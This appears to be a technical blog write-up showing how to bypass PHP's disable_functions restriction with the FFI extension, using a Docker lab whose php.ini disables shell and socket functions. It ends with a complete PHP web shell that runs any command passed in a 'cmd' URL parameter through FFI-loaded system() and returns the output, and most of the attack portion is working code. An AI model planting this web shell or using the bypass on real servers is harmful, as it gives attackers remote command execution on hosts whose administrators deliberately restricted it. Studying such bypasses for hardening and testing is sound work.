 ```yaml
---
title: PHP - Bypass Disable Functions Using FFI
tags: php disable_functions bypass ffi
---
```


# Description

Recently, I encountered a situation where most PHP functions were disabled. To facilitate more accurate debugging and analysis, I recreated the environment in a Docker container.

# Docker setup

## Dockerfile

```
FROM php:8.0-apache

RUN apt update
RUN apt install nano libffi-dev
RUN docker-php-ext-configure ffi --with-ffi
RUN docker-php-ext-install ffi

RUN echo "<?php phpinfo();?>" > phpinfo.php
COPY ffi_bypass.php /var/www/html/ffi_bypass.php

RUN cp /usr/local/etc/php/php.ini-production /usr/local/etc/php/php.ini
RUN sed -i "s|;ffi.enable=preload|ffi.enable=true|g" /usr/local/etc/php/php.ini
RUN sed -i "s|disable_functions =|disable_functions = pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,pcntl_unshare,error_log,system,exec,shell_exec,popen,passthru,link,symlink,syslog,ld,mail,stream_socket_sendto,dl,stream_socket_client,fsockopen|g" /usr/local/etc/php/php.ini

RUN chown -R www-data:www-data /var/www/html/

ENTRYPOINT ["apache2-foreground"]
```

## Build

```
docker build -t phpffi .
```

## Run 

```
docker run --rm -ti -p 8081:80 phpffi
```

In order to access the web application running in the Docker container, I exposed port `80` in the container to port `8081` on my local machine.

# PHPInfo

![image](https://user-images.githubusercontent.com/84577967/175967517-1f444bfa-dda2-4a68-9858-db0a007eb157.png)

## Disable Functions List

It's possible that you are wondering why the application was originally written in PHP 😆! Don't worry about it and just keep reading! No complaining allowed.

![image](https://user-images.githubusercontent.com/84577967/175967567-28591459-8d33-4b91-b5e5-13e175e6660f.png)

What took my attention that FFI is **enable** !

![image](https://user-images.githubusercontent.com/84577967/177450983-8abfc720-d340-4d9e-a1bc-de89f6a8853c.png)

# Foreign Function Interface (FFI)

## Important note

**This extension is disabled in the default PHP installation.**

![image](https://user-images.githubusercontent.com/84577967/177450600-bb90dca4-c30c-4ca6-9970-e7e5a74d9900.png)

## Introduction

![image](https://user-images.githubusercontent.com/84577967/175815888-f097b514-c0ae-47ef-aee9-01ae58e1c99b.png)

## Bypass disable functions

The FFI (Foreign Function Interface) extension in PHP allows developers to call any C function from within PHP code. This can be very useful, as it allows you to execute command-line functions such as `system()`. [system](https://www.tutorialspoint.com/c_standard_library/c_function_system.htm)

![image](https://user-images.githubusercontent.com/84577967/177451478-a105560b-18e3-48af-9ee5-65b67419a098.png)

We have to create a new FFI object using the `cdef` function

![image](https://user-images.githubusercontent.com/84577967/177452813-c9cbf070-cd3a-40c8-85f5-232f7c81417c.png)

Despite my initial efforts, I was unable to execute commands using the FFI extension. After some trial and error, I realized that the problem was with my attempts to print the results using functions such as echo or print. These functions are not capable of properly displaying the output of command-line functions, so I had to find a different way to retrieve and display the results of my commands.

Ultimately, I was able to create a small PHP script to test whether I was able to execute commands using the FFI extension. The script attempted to create a file named test, which would be an indication that command execution was successful. The code I used:

```php
<?php 
$ffi=FFI::cdef("int system(const char *command);");
$ffi->system('echo "test" > test');
?>
```

And it worked !

![image](https://user-images.githubusercontent.com/84577967/177454143-0ac183c1-eb0e-4a25-b8bf-9ee195f5325e.png)


## Final code

The PHP code below can be used to execute and print the result of any command:

```php
<?php
if(isset($_GET['cmd'])){
    $cmd=$_GET['cmd'];
    $rand=rand();
    $ffi = FFI::cdef("int system(const char *command);");
    $ffi->system("{$cmd} > /dev/shm/{$rand}");
    echo file_get_contents("/dev/shm/{$rand}");
    $ffi->system("rm /dev/shm/{$rand}");
}
?>
```

And the usage is pretty simple: `http://127.0.0.1:8081/bypass.php?cmd=id`

![image](https://user-images.githubusercontent.com/84577967/177454294-dc030ac4-4c85-4dcb-916a-1649b5a93ed7.png)
